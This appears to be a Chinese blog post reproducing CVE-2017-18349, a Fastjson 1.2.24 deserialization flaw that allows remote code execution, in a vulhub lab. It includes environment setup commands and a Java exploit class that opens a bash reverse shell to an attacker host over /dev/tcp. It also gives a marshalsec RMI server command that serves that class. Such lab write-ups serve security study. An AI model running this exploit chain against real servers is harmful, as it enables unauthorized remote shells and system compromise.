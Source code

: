 ```yaml
---
title: CVE-2017-18349
date: 2023-02-01 14:32:57
categories: 漏洞复现
summary: fastjson1.2.24rce复现
tags:
  - 漏洞复现
  - Java
---
```


# CVE-2017-18349 FastJson 1.2.24 反序列化漏洞RCE

## 0x01漏洞原理

~~~
fastjson在解析json对象时，会使用autoType实例化某一个具体的类，并调用set/get方法访问属性。
漏洞出现在Fastjson autoType处理json对象时，没有对@type字段进行完整的安全性验证，我们可以传入危险的类并调用危险类连接远程RMI服务器，通过恶意类执行恶意代码，进而实现远程代码执行漏洞
影响版本为fastjson < 1.2.25
~~~

## 0x02 漏洞环境搭建

这里用vulhub靶场的docker镜像进行，记得把java版本换成1.8.0_20
更换java版本：

~~~
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
tar zxvf jdk-8u20-linux-x64.tar.gz
rm -rf /usr/bin/java*
ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin
javac -version
java -version
~~~

然后用docker容器启动fastjson靶场

![](/images/1.png)

用burp抓包放到Repeater模块进行测试

![](/images/2.png)



先用ldap协议向第三方dnslog发送数据看看会不会有回显

![](/images/3.png)

可以看到第三方dnslog收到回显

下面就让我们来通过github上的https://github.com/mbechler/marshalsec.git 来构建一个RMI服务，然后再在本地开启一个web服务构造一个poc从而实现对fastjson实现RCE，话不多说，开干。

先下载marshalsec

~~~
git clone https://github.com/mbechler/marshalsec.git
~~~

然后下载maven并编译marshalsec生成jar

~~~
apt-get install maven
mvn clean package -DskipTests
~~~

![](/images/4.png)

mvn编译成功



下面构建exp攻击脚本Exploit.java

```
public class Exploit {
	public Exploit(){
		 try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/192.168.52.136/6666 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

然后进行javac  Exploit.java编译得到Exploit.class文件

在exp攻击脚本目录下开启一个web服务

![](/images/5.png)

开启一个RMI服务,监听8888端口

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.52.136:8000/#Exploit" 8888
```

![](/images/6.png)

用nc开启监听6666端口

![](/images/7.png)

burp构建发包请求

![](/images/8.png)

RMI服务器收到请求

![](/images/9.png)

通过exp脚本反弹给nc一个shell

![](/images/10.png)
